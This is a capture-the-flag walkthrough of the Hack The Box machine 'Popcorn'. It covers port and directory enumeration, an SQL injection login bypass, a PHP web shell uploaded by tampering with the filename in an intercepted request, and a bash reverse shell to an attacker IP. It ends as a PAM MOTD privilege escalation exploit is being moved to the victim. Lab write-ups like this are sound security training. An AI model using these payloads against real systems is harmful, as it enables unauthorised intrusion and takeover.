Return to Main Page
Popcorn Walkthrough
Contents
After enumerating directories on the web server we find a torrent hosting website. Using sql inejction we are able to login as root. Once logged in I am able to upload a php web shell by bypassing an upload restriction filter. Once on the box an interesting motd file is found in the user George's home directory. This leads us to an exploit which gives us root shell.
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Sat Oct 16 19:32:32 2021 as: nmap -p- -oN ping_tcp 10.129.36.23
Nmap scan report for popcorn.htb (10.129.36.23)
Host is up (0.045s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
# Nmap done at Sat Oct 16 19:32:47 2021 -- 1 IP address (1 host up) scanned in 15.06 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Sat Oct 16 19:33:08 2021 as: nmap -p22,80 -sV -sC -oN script_tcp 10.129.36.23
Nmap scan report for popcorn.htb (10.129.36.23)
Host is up (0.036s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_ 2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open http Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 16 19:33:16 2021 -- 1 IP address (1 host up) scanned in 8.21 seconds
I start off by visiting the web site on port 80.

There is nothing interesting on this page. I also right click on the page and take a look at the source code. Nothing interesting shows up there either. The next step is to search for web directories. I will use gobuster to do this. I run the command: gobuster dir -u http://10.129.36.23 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt | tee 10.129.36.23-raft. After the scan finishes I use grep to exclude 403 responses.

The gobuster scan reveals 3 interesting directories.
- /test
- This directory brings us to the php info page. This could come in handy. However, it does not help us on this box.
- /rename
- This brings us to an interesting page that allows us to rename files on the web server. I was able to figure out how to rename the index.php page to something else but that did not help with anything.
- /torrent
- This page is interesting. But it looks incomplete. It looks like pictures are not loading correctly.

- When I look at the source code I see http://popcorn.htb being referenced everywhere. So I add this to my /etc/hosts file.


Now that /torrrent is showing correctly we can move on to gaining a foothold.

At this point, we can either click on sign up under the login form and create a user or do a simple sql injection to get admin access. If you create your own user then you will need to upload a torrent file in order to gain a foothold (this will make more sense in a couple more steps). I choose to login as admin using 'or 1=1-- - for both the username and password.

Then I click on "My Torrents".

On this page we find the torrent "Kali Linux" that belongs to us.

Clicking on the torrent brings us to a page where we can see statistics about the torrent as well as the button "Edit this torrent" that allows us to upload a screenshot for the torrent.

I click on "Edit this torrent" and am given a window where I can choose a file to upload. We will use this functionality to gain a web shell. If I select a jpg, jpeg, gif, or png file it will upload successfully. However in order to gain a web shell we need to upload a php file. One way we know this server runs php is because when we visit /rename it references index.php in order to access the API. The problem we run into is that when simply selecting a php file to upload as a screenshot the web app rejects it saying "Invalid file". We need to bypass this.
In order to bypass the file upload restriction I create my php web shell file but I name it shell.png instead of shell.php

Now, I upload this file as my screenshot for the Kali torrent.

Before clicking "Submit Screenshot" I get burp suite setup to intercept the request. Here is the intercepted POST request to upload the screenshot file.

The POST request includes the details for the file "shell.png" that I have selected to upload. In order to bypass the upload restriction filter I will change the filneame from shell.png to shell.php. The reason this allows us to bypass the upload restriction filter is because the "Content-Type" field is specifying it as "image/png". Not all upload restriction filters work the same way, but in this case, having the "Content Type" set to "image/png" will allow us to upload a file that has php as an extension. Here is the altered POST request before I forward the post request.

Now I turn burp's intercept off and go back to the "Kali Linux" torrent page. It should show "Image File Not Found!" for the screenshot.

Now I right click on the "Image File Not Found!" and select "Copy Link Location". This copies the URL to my reverse shell, which is: http://popcorn.htb/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php. I navigate to that page and set the command to whoami in order to test whether or not the web shell works. In full, I navigate to http://popcorn.htb/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php?cmd=whoami.

Seeing that it works, I now set a netcat listener on port 4444. Then I intercept a web request to the web shell and set the command to bash -c 'bash -i >& /dev/tcp/10.10.14.83/4444 0>&1'. I url encode this by highlighting the command and pressing ctrl + u.

My netcat receives a connection and I now have my reverse shell.

I visit the /home directory and find /george. I look inside Georges home directory and find an unusual file - /home/george/.cache/motd.legal-displayed Upon discovering this file I use searchsploit to look see if any exploits exist that have to do with this file.

It looks like these 2 exploits reference the MOTD which is in the name of the file I found. The exploits also reference "Linux PAM 1.1.0". I check to see which version of PAM is installed on the victim.

The PAM version on the victim machine also matches the 2 exploits. I download one of the exploits and transfer it to the victim.
